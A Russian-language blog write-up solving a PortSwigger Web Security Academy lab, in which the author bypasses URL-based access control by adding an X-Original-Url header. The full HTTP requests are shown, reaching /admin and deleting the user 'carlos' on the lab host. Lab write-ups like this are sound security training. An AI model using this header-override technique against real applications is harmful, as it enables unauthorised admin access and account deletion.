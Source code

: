 ```yaml
---
title: "URL-based access control can be circumvented"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented"
classes: wide
---
```


Для прохождения нужно зайти в панель администратора и удалить пользователя `carlos`.

```
https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/
```

## Solution

О как. Есть ссылка на панель админа, но у меня нет к ней доступа.

```
https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/admin
```

Видим, что блокируют запросы по этому `URL`:

```http
GET / HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить заголовок `X-Original-URL` или `X-Rewrite-URL`. Они используются для изменения оригинального `URL` в запросе некоторыми фреймворками.

```http
GET / HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Original-Url: /admin
```

Ответ получен:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_URL-based_access_control_can_be_circumvented/1.png){: height="200" .align-center}

Найду энпоинт для удаления пользователя:

```
/admin/delete?username=carlos
```

Соберу запрос:

```http
GET /?username=carlos HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Original-Url: /admin/delete
```

Успех)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_URL-based_access_control_can_be_circumvented/2.png){: height="200" .align-center}